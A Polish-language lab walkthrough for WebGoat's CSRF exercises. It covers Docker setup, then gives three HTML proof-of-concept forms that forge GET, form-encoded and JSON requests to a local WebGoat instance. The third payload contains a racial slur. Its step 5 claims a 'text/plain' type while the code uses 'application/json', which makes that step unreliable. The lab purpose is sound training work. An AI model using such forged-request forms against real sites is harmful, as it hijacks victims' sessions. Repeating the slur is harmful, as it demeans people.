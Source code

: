 
## INSTALACJA 

Na początku musimy pobrać repozytorium na którym znajduje się nasze oprogramowanie WebGoat którego będziemy używać.

  https://github.com/WebGoat/WebGoat

Dodatkowo będziemy potrzebowali dockera i xamppa 

  https://www.docker.com/products/docker-desktop/
  https://www.apachefriends.org/pl/download.html

Po instalacji wszystkich 3 rzeczy możemy przejść do części praktycznej naszego projektu. 
### URUCHOMIENIE WEBGOAT
```bash
  docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```
  W przypadku jakichś problemów z uruchomieniem kontenera możemy spróbować uruchomić go na innym porcie, należy zapamiętać ten port gdyż będzie on wykorzystywany  w dalszej części.


# ZADANIA 
### ZADANIE 1
1. Pierwszym krokiem jest utworzenie profilu użytkownika
![App Screenshot](https://snipboard.io/ejtuPR.jpg)

2. Następnie przechodzimy do zakładki Server-side Request Forgery i wybieramy Cross-Site Request Forgeries. Zalecamy zaponzać się z dodatkową treścią umieszczoną na pierwszych dwóch slajdach w celu łatwiejszego zrozumienia tematu.

3. Teraz przechodzimy do zakładki Basic Get CSRF Exercise, w której wykonamy pierwsze zadanie. W tym momencie musimy uruchomić serwer apache. Celem tego zadania jest uruchomienie poniższego formularza z zewnętrznego źródła podczas logowania. Odpowiedź będzie zawierać "flagę" (wartość liczbową) którą wpiszemy poniżej.
4. Tworzymy plik do którego musimy wkleić kod  
```html
<html>
	<body>
	<script>history.pushState('','', '/')</script>
	 <form action="http://localhost:{NUMER_PORTU}/WebGoat/csrf/basic-get-flag" method="POST">
		<input type="hidden" name="csrf" value="false" />
		<input type="hidden" name="submit" value="Submit&#32;Query"/>
		<input type="submit" value="Submit request" />
	 </form>
	</body>
</html>
```
Po uruchomieniu tego kodu powiniśmy otrzymać status, że zadanie zostało wykonane poprawnie. Dodatkowo zwrócona została wartość liczoba flagi, którą musimy wkleić do formularza.
![App Screenshot](https://snipboard.io/CZyGlD.jpg)

### ZADANIE 2
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytania wysyłane poprzez formularz z opiniami. Gdy dodamy opinię powiniśmy zauważyć wysłane zapytanie metodą POST. 
2. W tym przypadku również będziemy tworzyć plik z naszym kodem. Będzie potrzebne nam:
- post url request
- content type
- parametry 
```html
	<html>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/review method=post enctype='application/x-www-form-urlencoded; charset=UTF-8'>
		<input name='pierwszy_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='drugi_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='trzeci_parametr' value='wartosc_odczytana' type='hidden'> 
		<input type=submit value="Submit">
	</form>
</html>
```
	<input name='' value='totalnielosowe' type='hidden'> - sprawia że ofiara nie jest świadoma ataku który jest przeprowadzany.
3. Po wykonaniu powyższego kodu i odświeżenia głównej strony jesteśmy w stanie zobaczyć dwie opinie.

### ZADANIE 3
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytanie wysyłane poprzez wiadomość którą uzupełniliśmy.

2. Warto zwrócić uwagę tutaj na content type.
![App Screenshot](https://snipboard.io/9OYCsH.jpg)

3. W przypadku zapytania POST i użycia content-type innego niż 3 wyżej wymienione zapytanie nie jest już wtedy proste, jest uznawane jako "preflighted request". 

4. W zapytaniu preflighted request wykonywane są dodatkowe sprawdzenia bezpieczeństwa przez serwer w celu sprawdzenia czy na prawdę jesteśmy autoryzowanym użytkownikiem do wykonania zapytania. Dlatego chcemy unikać tego typu zapytań. 

5. Zmienimy nasze zapytanie aby wykorzystywało "text/plain" zamiast "application/json"
```html
<html>
	<title>JSON CSRF POC</title>
	<center> 
	<h1>JSON CSRF POC </h1>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/feedback/message method=post enctype ="application/json">
	<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat nigger","ignore_me":"'value = 'test"}' type=hidden>
	<input type=submit value="Submit">
	</form>
	</center>
</html>
```

6. Próbujemy zamaskować typ z json aby był traktowany jako zwykły tekst, dlatego używamy takiego sposobu przekazania parametrów. Parametr ignore_me jest używany w celu ominięcia problemu w którym jest to traktowane jako json.

